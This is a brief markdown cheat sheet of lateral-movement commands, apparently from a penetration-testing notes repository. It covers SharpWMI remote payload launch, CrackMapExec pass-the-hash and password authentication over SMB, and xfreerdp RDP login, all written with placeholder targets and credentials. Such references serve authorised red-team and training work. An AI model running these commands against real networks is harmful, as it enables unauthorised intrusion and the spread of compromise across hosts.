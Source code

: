 # Lateral Movement Techniques

## SharpWMI

https://github.com/GhostPack/SharpWMI

Launch payload:

```
SharpWMI.exe action=create computername=<hostname> command="C:\path\to\exe"
```

## Crackmapexec

Pass the hash of a local account, such as the local administrator account

```
cme smb <target> -u <username> -H '<NTLM_Hash>' --local-auth``
```

Password authentication with a domain account

```
cme smb <target> -u <username> -p '<password>' -d <domain>
```

## xfreerdp

xfreerdp is usually used for lateral movement through RDP when NLA is enforced.

```
xfreerdp /u:user /p:password /v:host
```